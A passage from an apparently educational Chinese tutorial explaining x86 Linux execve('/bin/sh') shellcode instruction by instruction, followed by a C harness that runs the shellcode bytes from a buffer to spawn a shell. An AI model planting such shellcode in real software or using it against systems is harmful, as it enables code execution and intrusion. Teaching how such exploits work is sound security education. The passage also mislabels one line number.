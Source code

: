     *   第五行将`name[0]`储存到`%ebx。
    *   第八行将`name`储存到`%ecx`。
    *   第六航将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
*   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：

```
#include <stdlib.h> 
#include <stdio.h>

const char code[] = 
    "\x31\xc0" /* Line 1: xorl %eax,%eax */ 
    "\x50" /* Line 2: pushl %eax */ 
    "\x68""//sh" /* Line 3: pushl $0x68732f2f */ 
    "\x68""/bin" /* Line 4: pushl $0x6e69622f */ 
    "\x89\xe3" /* Line 5: movl %esp,%ebx */ 
    "\x50" /* Line 6: pushl %eax */ 
    "\x53" /* Line 7: pushl %ebx */ 
    "\x89\xe1" /* Line 8: movl %esp,%ecx */ 
    "\x99" /* Line 9: cdq */ 
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */ 
    "\xcd\x80" /* Line 11: int $0x80 */ ;

int main(int argc, char **argv) { 
    char buf[sizeof(code)]; 
    strcpy(buf, code); 
    ((void(*)( ))buf)( ); 
}
```

上面`main`函数中的`((void(*)( ))buf)( )`语句会调用 Shell，因为执行了 Shellcode。